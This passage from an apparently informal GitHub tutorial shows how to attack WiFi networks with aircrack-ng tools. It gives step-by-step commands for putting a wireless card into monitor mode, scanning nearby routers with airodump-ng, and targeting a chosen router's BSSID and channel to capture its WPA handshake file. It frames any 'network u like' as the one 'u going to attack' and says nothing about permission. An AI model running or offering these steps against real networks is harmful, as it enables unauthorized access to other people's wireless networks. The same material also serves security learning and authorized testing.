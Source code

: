 ```bash
ifconfig wlan0 up
``` 
## 5. Now its on monitor mode check using :
```bash
iwconfig 
``` 
![Screenshot 2023-10-17 221254](https://github.com/Esther7171/web-development/assets/122229257/f754b3a2-9844-463b-8896-0b5ba3c05d3d)

# 2. Or not doing all this time wast u can do Directly this Monitor mode by using  😁 :
```bash
airmon-ng start wlan0   
``` 

# step 2. Check for nearby network
## to check use :
# it will show u all routers
```bash
airodump-ng wlan0   
```  

### ctrl + c =>  to stop 
![Screenshot 2023-10-17 221340](https://github.com/Esther7171/web-development/assets/122229257/dd887d5b-5665-46e8-9a21-8149062b33ca)


* Copy bssid ofnetwork u like (bssid = mac address show on first row)
*  also note the ch (channel number of same router)

# step 3. Check devices connect to that network and capture Handshake-file 

* --bssid => whom u going to attack
* --channel => to give channel number if it or use [(-c) for channel but sometime it didn't work well ]
* station => is the device connectedto router.
![Screenshot 2023-10-17 221650](https://github.com/Esther7171/web-development/assets/122229257/9bc23ec6-1f6a-4916-8ca4-52262d0e6699)

* --write => to creat a file where my handshake store
```bash
airodump-ng wlan0 --bssid --channel --write /path/Meow.txt
```
```bash
airodump-ng wlan0 --bssid -c -w /path/Meow.txt
```
## for an example
```bash
airodump-ng wlan0 --bssid 3C:46:45:1D:5D:31 --channel 11  -w /home/death/Meow.txt
```
